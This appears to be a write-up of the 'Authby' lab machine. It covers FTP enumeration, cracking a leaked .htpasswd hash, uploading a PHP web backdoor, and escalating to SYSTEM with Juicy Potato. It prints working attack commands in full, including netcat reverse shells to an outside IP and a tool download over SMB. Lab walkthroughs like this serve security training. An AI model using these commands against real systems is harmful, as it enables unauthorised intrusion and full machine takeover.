# Authby

## Service Enumeration

`nmapAutomator.sh -H 192.168.85.46 -t full`

`nmapAutomator.sh -H 192.168.85.46 -t vulns`

### FTP

Anonymous login allowed.



While we cannot access these files, we can see that there are some account names.



Using the account `admin:admin`, we get access to some other files.



The `.htaccess` and `.htpasswd` files are leaked.



.htaccess

```text
AuthName "Qui e nuce nuculeum esse volt, frangit nucem!"
AuthType Basic
AuthUserFile c:\\wamp\www\.htpasswd
<Limit GET POST PUT>
Require valid-user
</Limit>
```

.htpasswd

```text
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```

Passing the `.htpasswd` hash into John the Ripper, we find the credentials to authenticate into the HTTP server.




### RDP



### Nonstandard Ports



### HTTP



Using the previously found credentials \(`offsec:elite`\), we can authenticate into the application.



### Subdirectory Enumeration

`gobuster dir -u http://192.168.85.46:242/ -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 50 -U offsec -P elite`



`gobuster dir -u http://192.168.85.46:242/phpmyadmin -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 50 -U offsec -P elite -s 200,204,301,302,307,401`

## Exploitation

Using the PHP backdoor from `/usr/share/webshells/php/simple-backdoor.php`, we can upload this backdoor through the `admin` FTP account to the web root. Then, we can visit the `simple-backdoor.php` and use the `cmd=` parameter to achieve RCE.



Copy `nc.exe` through SMB:

`http://192.168.85.46:242/simple-backdoor.php?cmd=copy \\192.168.49.85\ROPNOP\netcat\nc.exe .`

Trigger a reverse shell:

`http://192.168.85.46:242/simple-backdoor.php?cmd=nc.exe -e cmd.exe 192.168.49.85 443`

On our listening machine, we get a reverse shell.





## Privilege Escalation

First, we know that `SeImpersonatePrivilege` is enabled.



We can perform privilege escalation using Juicy Potato.

However, there are two challenges.

1. This is an x86 system, so we need an x86 Juicy Potato executable. I used the one from here: [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)
2. The default CLSID doesn't work. Juicy Potato will return `COM -> recv failed with error: 10038`.

`systeminfo` shows that this is Windows Server 2008.



We can use one of the BITS CSLIDs from here: [https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows\_Server\_2008\_R2\_Enterprise](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise). I used `{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}`.



Now, we can use the `nc.exe` we transferred previously to get another reverse shell, this time with SYSTEM privileges.

`juicy.potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\wamp\www\nc.exe -e cmd.exe 192.168.49.85 443" -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}`



On our listening machine:





